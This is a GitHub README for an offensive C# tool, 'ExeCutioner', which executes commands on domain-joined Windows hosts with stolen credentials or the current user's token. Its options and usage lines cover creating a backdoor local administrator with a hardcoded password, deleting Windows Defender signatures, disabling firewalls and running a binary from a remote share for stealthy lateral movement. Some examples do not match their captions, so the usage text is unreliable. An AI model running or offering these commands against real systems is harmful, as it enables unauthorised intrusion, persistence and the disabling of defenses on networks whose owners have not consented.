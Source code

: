 # ExeCutioner


![image](https://user-images.githubusercontent.com/57995347/164909586-9938ba03-3381-4750-ab95-3f69c261f625.png)



This is an Offensive C# Tool written to execute commands on Domain-joined Windows hosts by either taking user supplied creds (username/password) or leveraging the logged-on user's access token.

It also supports a "PsExeclike" lateral movement technique that attempts to fly under the radar of basic defenses and can be used to clear AV Definitions to further make attacks easier.

It was heavily inspired by the OSEP course and leverages code and ideas from https://github.com/chvancooten/OSEP-Code-Snippets
                      
```
ExeCutioner.exe /t <target> /user <username>  /pass <password>  /domain <domain> <command-to-run>
```

Options:
```
/addadmin - adds a local administrator called newguy with password MakeLife123 to target
/cmd - allows for the execution of commands on the target
/domain - allows for the specification of target domain
/noav - deletes Windows Defender's signatures
/nofw - disables all target firewall profiles
/pass - specifies password to use
/t - specifies the target
/syscreds - ignores the user specified and uses the token of the currently logged in user
/user - specifies the target user account
```

Usage:
```
ExeCutioner.exe /t <target> /user <username>  /pass <password>  /domain <domain> <command-to-run>

Usage: Examples:
ExeCutioner.exe /?  - show's this help menu 

//Authenticate to target with username and password and disable firewall profiles
ExeCutioner.exe /t <target name or IP> /user <username> /pass <password> /domain <domain> /nofw true

//Authenticate to target with current user token and turn off av - useful and facilitates easier lateral movement/code execution
ExeCutioner.exe /t <target name or IP> /syscreds true /nofw true

//Authenticate to target with current user token and execute command
ExeCutioner.exe /t <target name or IP> /cmd <command-to-run-in-qoutes>

//Authenticate to target with current user token and execute binary for lateral movement
ExeCutioner.exe /t <target name or IP> /cmd <\\192.168.10.8\\lateralmovement.exe>

//Authenticate to target with current user token and add a new Local Administrator - username "newguy" with password "MakeLife123"
ExeCutioner.exe /t <target name or IP> /cmd <\\192.168.10.8\\lateralmovement.exe>
```

# Credits
- Heavily inspired by "[chvancooten](https://github.com/chvancooten/OSEP-Code-Snippets)" 
- Invaluable knowledge from the "[OSEP Course](https://www.offensive-security.com/pen300-osep/)"
- Great resource from "[Microsoft](https://docs.microsoft.com/en-us/dotnet/api/system.security.principal.windowsidentity.impersonate?view=netframework-4.8)"


